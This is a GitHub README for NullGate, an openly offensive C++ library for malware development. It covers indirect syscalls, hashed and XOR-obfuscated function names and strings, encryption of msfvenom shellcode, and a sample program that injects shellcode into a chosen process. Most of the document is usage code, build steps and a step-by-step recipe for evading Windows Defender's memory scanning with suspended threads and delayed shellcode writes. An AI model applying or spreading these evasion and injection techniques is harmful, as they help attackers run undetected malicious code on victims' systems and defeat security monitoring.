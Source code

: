 # NullGate
This project implements a comfortable and modern way to use the NTAPI functions using indirect syscalls, coupled with the [FreshyCalls](https://github.com/crummie5/FreshyCalls) method with a little twist for dynamic syscall number retrieval.
It also uses a technique that I haven't seen being metioned to bypass windows defender's memory scanning. It also implements a classic PoC process injector.

## Demo
![Demonstration of the sample](./assets/demo.gif)

## Usage

The usage is pretty straight forward, here is a snippet demonstrating the main functionality:
```cpp
nullgate::syscalls syscalls;
typedef NTSTATUS NTAPI NtAllocateVirtualMemory(
    _In_ HANDLE ProcessHandle,
    _Inout_ _At_(*BaseAddress,
                 _Readable_bytes_(*RegionSize) _Writable_bytes_(*RegionSize)
                     _Post_readable_byte_size_(*RegionSize)) PVOID *BaseAddress,
    _In_ ULONG_PTR ZeroBits, _Inout_ PSIZE_T RegionSize,
    _In_ ULONG AllocationType, _In_ ULONG PageProtection);

auto status = syscalls.SCall<NtAllocateVirtualMemory>(
      ng::obfuscation::fnv1Const("NtAllocateVirtualMemory"), processHandle,
      &buf, 0, &regionSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
There's builtin typesafety. You just need to provide the definiton of the nt function that you want to call! You can easily get that from [ntdoc](https://ntdoc.m417z.com/). This is the recommended way to use the lib.<br><br>
For people who don't like c++ templating black magic or something the previous interface is still available:
```cpp
auto status = syscalls.Call(nullgate::obfuscation::fnv1Const("NtAllocateVirtualMemory"),
                         processHandle, (PVOID)&buf, (ULONG_PTR)0, &regionSize,
                         (ULONG)(MEM_RESERVE | MEM_COMMIT), (ULONG)PAGE_EXECUTE_READWRITE);
```
Using this interface you <b>need</b> to cast the arguments to the right type, not doing this may cause [problems](https://github.com/0xsch1zo/NullGate/issues/2). <br><br>
The `fnv1Const` method brings the joys of modern C++ to the maldev world. It is a `consteval` function, so it is guaranteed that it will get evaluated at compile time, replacing the readable function name with a fnv1 hash.<br><br>
There is also a runtime equivalent called `fnv1Runtime` but of course it doesn't add the benefit of having our function names obfuscated. It is used by the implementation to check which function inside of ntdll to get the syscall number of.<br><br>
There are routines that can xor encrypt/decrypt(multibyte key) and base64 encode/decode your payload or some message:
```cpp
if (!NT_SUCCESS(status))
    throw std::runtime_error(
        nullgate::obfuscation::xorDecode("BQkEI1c0dkJ4LU4naSJhGCcIFSNWej5YeD5DNmkzM"
                               "x8lAwI8H3o3VzEmTjdpNCgELlxR") +
        std::to_string(status));
```
The key for now is `FfqO3ZQ6XJ+SICAp`. A hasher is also provided, after building the project, the binary will be accessible at `<build_dir>/_deps/nullgate-build/src/hasher`. Just pipe something into it and it will spit out a base64 encoded and xored string.<br><br>
To ease the encryption of shellcode a special functon is provided:
```cpp
auto decryptedShellcode =
      nullgate::obfuscation::hex2bin(nullgate::obfuscation::xorDecode(encryptedShellcode))
```
The `hex2bin` function just turns a hex string into a vector of bytes, thanks to this you can just pipe the shellcode from msfvenom with the `-f hex` flag straight into the hasher and not have worry about the special characters.

### Adding nullgate to your project
CMake FetchContent is supported. Here is an example of a simple CMakeLists.txt:

```cmake
cmake_minimum_required(VERSION 3.25)

include(FetchContent)

FetchContent_Declare(nullgate
    GIT_REPOSITORY https://github.com/0xsch1zo/NullGate
    GIT_TAG 1.1.0
)

FetchContent_MakeAvailable(nullgate)

project(test)

add_executable(test
    main.cpp
)

target_link_libraries(test
    PRIVATE nullgate
)
```
The linking is done statically so you don't have to worry about symbols being visible.
## Build
To build the sample use `-DNULLGATE_BUILD_SAMPLE=ON`. It will be accessible at `<build_dir>/_deps/nullgate-build/sample.exe`. It takes a PID that you want to inject shellcode into as an argument.
> [!WARNING]
> If you are using linux you need to have the mingw crosscompiler installed. On Arch for example you can do `pacman -S mingw-w64-gcc`. Then use the `-DNULLGATE_CROSSCOMPILE=ON` option to set mingw as the default compiler for the relevant parts of the program.
```
git clone https://github.com/0xsch1zo/NullGate
cd NullGate
cmake . -B build -DNULLGATE_BUILD_SAMPLE=ON
cmake --build build/
```

## Windows defender memory scan bypass
The core of the issue is that when we call `NtCreateRemoteThreadEx` or `NtCreateProcess`, a memory scan gets triggered and our signatured as hell msfvenom payload gets detected.

### How to bypass that?
A known solution is to first when calling `NtAllocateVirtualMemory` set the page permissions as `PAGE_NOACCESS`, then create the thread in a suspended state. 
When windows defender will scan the memory of our process it will fail to do that.
We can then resume the execution of our thread with `NtResumeThread`.
This works, but what if a more competent security solution is being used? What would it do? 
It would of course just use `VirtualProtect` to change the permissions of our page and detect msfvenom. 
To bypass that I changed the strategy a bit. Instead of setting the page as `PAGE_NOACCESS`, during our first write to the memory of the process we can just put some junk data into the process(Yes it is required, or I'm just too stupid to find a way to get it working wihout this). 
Then we create a thread in suspended state. 
After that we write to the process our desired shellcode and finally we resume the thread using `NtResumeThread`. 
With this technique we don't have to worry about our memory being accessed after the call to `NtCreateThreadEx` because there is nothing in there. 
Only after the fact the decrypted shellcode is written and the execution is resumed.

## Credits:
- To [@ElephantSe4l](https://github.com/ElephantSe4l) and [@MarioBartolome](https://github.com/MarioBartolome) for a great method of dynamic syscall number retrieval and generally the whole project from which I've taken great inspiration of of.
- To [@cr-0w](https://github.com/cr-0w) for the amazing [blog post](https://www.crow.rip/crows-nest/mal/dev/inject/syscalls/indirect-syscalls) and [video](https://www.youtube.com/watch?v=-M2_mZg_2Ew) discussing direct and indirect syscalls.
- To [bordergate](https://www.bordergate.co.uk/) for the [article](https://www.bordergate.co.uk/windows-defender-memory-scanning-evasion/) that describes the initial method of bypass.
